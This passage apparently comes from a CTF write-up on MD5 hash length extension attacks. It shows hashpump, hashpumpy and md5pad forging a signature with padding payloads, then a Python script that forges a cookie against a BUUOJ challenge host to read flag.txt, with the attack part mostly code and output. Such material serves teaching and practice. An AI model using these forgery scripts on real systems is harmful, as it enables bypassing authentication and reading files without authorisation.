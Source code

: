 ```bash
$ hashpump -s 52107b08c0f3342d2153ae1d68e6262c -d admin -k 13 -a 3nd
b434e6bafe2a80ddb42d515d98a1b6f2
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x003nd
```

2. hashpump (python)

```python
import urllib
import hashpumpy

hash = '52107b08c0f3342d2153ae1d68e6262c'
ext = hashpumpy.hashpump(hash, 'admin', '3nd', 13)
print ext[0]
print urllib.quote(ext[1])
'''
b434e6bafe2a80ddb42d515d98a1b6f2
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%003nd
'''
```

3. [md5pad](https://github.com/JoyChou93/md5-extension-attack)

md5pad.py \<md5string\> \<string_to_append\> [length of plaintext of md5string]

```bash
$ python md5pad.py 52107b08c0f3342d2153ae1d68e6262c 3nd 18
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x003nd'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%003nd
md5: b434e6bafe2a80ddb42d515d98a1b6f2
```
---

Payload:

```python
import hashpumpy
import requests
import urllib

url = 'http://7ddeea64-4b71-4c8d-85e9-798ada53395c.node1.buuoj.cn'
param = 'local_file:flag.txt'
r = requests.get(url+'/geneSign?param='+param)
sign = r.text
hash_sign = hashpumpy.hashpump(sign, param + 'scan', 'read', 16)
cookies={
    'sign': hash_sign[0],
    'action': urllib.quote(hash_sign[1][len(param):])
}
r = requests.get(url+'/De1ta?param='+param, cookies=cookies)

print r.content
```
